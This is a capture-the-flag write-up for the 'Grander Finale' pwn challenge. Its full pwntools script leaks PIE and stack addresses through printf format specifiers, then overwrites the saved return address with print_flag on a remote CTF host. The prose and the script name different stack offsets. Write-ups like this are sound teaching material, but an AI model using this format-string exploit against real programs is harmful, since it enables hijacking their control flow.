


[Source code](./handout/5-Grander_Finale)

Here are the protections on the binary:



Our limitations:
1. No write into the GOT (Full RELRO)
2. Not overflow the stack (Canary found)
3. Not run shellcode (NX enabled)
4. Address are changed at every executions (PIE enabled)


For this challenge my biggest mistake was trying to exploit the binary locally. After I was able to get the flag but locally but not remotely, I've decided to replicate the environment challenge with the `Dockerfile` they gave us but I added `gdb` to debug on it (you need to log as root to use gdb on the docker container). I've noticed that what I was leaking on my local machines was offsets away on the docker container.  
For example on my local machine `%27$p` would leak the main address but on the docker container it was `%25$p`  
I also found by trials, errors and calculation a leak to an address to compute the `saved RIP` register address which is `%26$p`.  
Our goal is to overwrite the `saved RIP` register address with the `print_flag` address


FINALE SCRIPT:

```python
from pwn import *

def leak_hex_int(output):
	import re
	# Match hex values of reasonable length (>= 4 chars to avoid noise)
	matches = re.findall(rb'0x[0-9a-fA-F]{4,}\b', output)
	return [int(m, 16) for m in matches]

FILE = "./grander_finale"
elf = ELF(FILE, checksec=False)
context.binary = FILE

HOST = "chal.sigpwny.com"
PORT = 1386
OFFSET = 10

conn = remote(HOST, PORT)

# %23$p - 0x150 = saved rip address # Found on the container
# %25$p -> main address # Found on the container
payload = b"%25$p %23$p" 

conn.sendlineafter(b"? ",payload)
out = conn.recvline()

# main address
MAIN_ADDR = leak_hex_int(out)[0]
info(f"{hex(MAIN_ADDR) = }")  

## SYMBOLS
# base address
BASE_ADDR = MAIN_ADDR - elf.symbols["main"]
info(f"{hex(BASE_ADDR) = }")  

# Setting 'elf.address' with the base address so it calculates the following addresses for us
elf.address = BASE_ADDR

# print_flag address
PRINT_FLAG_ADDR = elf.symbols['print_flag']
info(f"{hex(PRINT_FLAG_ADDR) = }")

# leak for saved rip calculation
leak_for_rip = leak_hex_int(out)[1]
info(f"{hex(leak_for_rip) = }")  

# saved rip calculation
saved_rip_addr = leak_for_rip - 0x150
info(f"{hex(saved_rip_addr) = }")


# payload construction
# I use write_size='short' because the name variable is 64 bytes long
# and with write_size='byte' it exceed 64 bytes
payload = fmtstr_payload(OFFSET, {saved_rip_addr: PRINT_FLAG_ADDR}, write_size='short')
info(f"{len(payload) = }")  

conn.sendlineafter(b"? ", payload)
conn.interactive()
```



**Note:** I don't know why but sometimes the script doesn't work. It works like 60% to 70% of the time.

Additional challenge [printf write](./printf_write.md)


